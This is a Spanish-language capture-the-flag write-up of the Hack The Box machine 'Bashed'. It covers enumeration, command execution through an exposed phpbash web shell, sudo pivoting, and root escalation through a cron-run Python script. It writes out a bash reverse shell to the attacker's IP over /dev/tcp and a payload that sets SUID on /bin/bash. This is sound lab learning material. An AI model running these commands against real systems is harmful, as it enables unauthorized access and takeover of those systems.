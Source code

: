 ## Bashed

---

![image](images/20250523112750.png)

###### Técnicas demostradas:

- Web Enumeration
- Abusing WebShell Utility (RCE)
- Abusing Sudoers Privilege (User Pivoting)
- Detecting Cron Jobs Running on the System
- Exploiting Cron Job Through File Manipulation in Python Executed by Root (Privilege Escalation)

---

Realizamos un escaneo de puertos con la herramienta `nmap`

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allPorts
```

![image](images/20250430104350.png)

Hacemos un escaneo exhaustivo sobre el puerto encontrado para conocer el servicio y su versión.

```bash
nmap -p80 -sCV 10.10.10.68 -oN targeted
```

![image](images/20250430104436.png)

Con la herramienta `WhatWeb` obtenemos algo más de información

```bash
whatweb 10.10.10.68
```

![image](images/20250430104518.png)

Accedemos a la web para ver qué encontramos.

![image](images/20250430104900.png)

Realizamos una búsqueda de directorios dentro del dominio con la herramienta `gobuster`

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php
```

![image](images/20250430110543.png)

Tras probar varios, vemos que `/dev` nos permite acceder a la herramienta `phpbash` --> [GitHub - Arrexel/phpbash: A semi-interactive PHP shell compressed into a single file.](https://github.com/Arrexel/phpbash)

![image](images/20250430110555.png)

Accedemos a ella, y vemos que podemos ejecutar comandos como el usuario `www-data`

![image](images/20250430110640.png)

Moviéndonos al directorio personal de `arrexel` encontramos la primera flag

![image](images/20250430110749.png)

#### Escalada de privilegios

Empezamos listando los permisos a nivel de `sudoers` para el usuario `www-data`

```bash
sudo -l
```

Vemos que podemos ejecutar comandos como el usuario `scriptmanager` sin necesidad de contraseña

![image](images/20250430110905.png)

Podemos probar esto de la siguiente manera:

```bash
sudo -u scriptmanager whoami
```

![image](images/20250430112917.png)

En este punto, lanzamos una reverse shell a nuestra máquina para trabajar más cómodamente.

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.9/1234 0>%261"
```

```bash
nc -nlvp 1234
```

![image](images/20250430113217.png)

Y lanzamos una bash como `scriptmanager`:

```bash
sudo -u scriptmanager bash
```

![image](images/20250430113343.png)

Buscamos archivos cuyo propietario sea `scriptmanager`

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```

![image](images/20250430113834.png)

Encontramos archivos dentro del directo `/script`

```bash
cd scripts/
```

![image](images/20250430113847.png)

Revisando su contenido y permisos, parece que el usuario root está ejecutando una tarea programada:

![image](images/20250430114030.png)

Con el siguiente script podemos visualizar en tiempo real si se están ejecutando tareas y el usuario que las lanza:

![image](images/20250430120902.png)

```sh
#!/bin/bash

old_process="$(ps -eo user,command)"

while true; do
	new_process="$(ps -eo user,command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "kworker|procmon"
	old_process=$new_process
done
```

```bash
chmod +x procmon.sh
```

![image](images/20250430115137.png)

Una vez confirmado que se ejecuta como root, modificamos el archivo `test.py` para asignar el bit `SUID` a `/bin/bash`:

```python
import os

os.system("chmod u+s /bin/bash")
```

![image](images/20250430115825.png)

Y ejecutamos bash con privilegios elevados:

```bash
bash -p
```

Encontramos la flag de root

![image](images/20250430115914.png)
